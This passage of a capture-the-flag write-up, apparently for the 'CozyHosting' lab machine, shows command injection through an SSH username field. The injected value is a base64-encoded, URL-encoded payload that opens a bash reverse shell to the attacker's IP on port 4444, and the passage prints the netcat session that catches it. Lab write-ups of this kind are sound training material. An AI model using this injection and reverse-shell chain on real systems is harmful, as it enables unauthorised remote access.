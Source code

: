 In the location attribute, we get an error relating to ssh. Again, I receive another hint and determine that there is an exploit here, likely a payload in username or host IP, so do more research.

I came across a payload to put into the username field:
```
;echo${IFS}"[ PAYLOAD ]"|base64${IFS}-d|bash;

```

For the payload, I want to send a bash shell to my IP at port 4444. To do that I need this command in base64 and then I replace it in the `[ PAYLOAD ]` placeholder above:

```
"bash -i >& /dev/tcp/10.10.14.83/4444 0>&1"

```

We need to encode the payload to base64, and then the whole command in URL format:

```
-[Thu Feb 29-09:07:19]-[table@parrot]-
-[~]$ echo "bash -i >& /dev/tcp/10.10.14.83/4444 0>&1" | base64 -w 0
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44My80NDQ0IDA+JjEK
```

The base64 payload inserted into our command:

```
;echo${IFS}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44My80NDQ0IDA+JjEK"|base64${IFS}-d|bash;
```

Full command payload, encoded into URL to insert in username:

```
%3Becho%24%7BIFS%7D%22YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC44My80NDQ0IDA%2BJjEK%22%7Cbase64%24%7BIFS%7D-d%7Cbash%3B
```

After sending the payload, and having `netcat` listening on port 4444, we catch a reverse shell!

```
-[Thu Feb 29-09:37:07]-[table@parrot]-
-[~]$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.83] from (UNKNOWN) [10.10.11.230] 54708
bash: cannot set terminal process group (1063): Inappropriate ioctl for device
bash: no job control in this shell
app@cozyhosting:/app$ id
uid=1001(app) gid=1001(app) groups=1001(app)
app@cozyhosting:/app$
```

We find a `.jar` file in `/app`. We cannot view it remotely so I download it onto the remote host to view it:

```
-[Thu Feb 29-09:55:59]-[table@parrot]-
-[~]$ wget 10.10.11.230/app/cloudhosting-0.0.1.jar
--2024-02-29 09:56:43-- http://10.10.11.230/app/cloudhosting-0.0.1.jar
Connecting to 10.10.11.230:80... connected.
HTTP request sent, awaiting response... 301 Moved Permanently
Location: http://cozyhosting.htb [following]
--2024-02-29 09:56:43-- http://cozyhosting.htb/
Resolving cozyhosting.htb (cozyhosting.htb)... 10.10.11.230
Reusing existing connection to 10.10.11.230:80.
HTTP request sent, awaiting response... 200
Length: unspecified [text/html]
Saving to: ‘cloudhosting-0.0.1.jar’
cloudhosting-0.0.1.jar [ <=> ] 12.41K --.-KB/s in 0.08s
2024-02-29 09:56:43 (150 KB/s) - ‘cloudhosting-0.0.1.jar’ saved [12706]
```
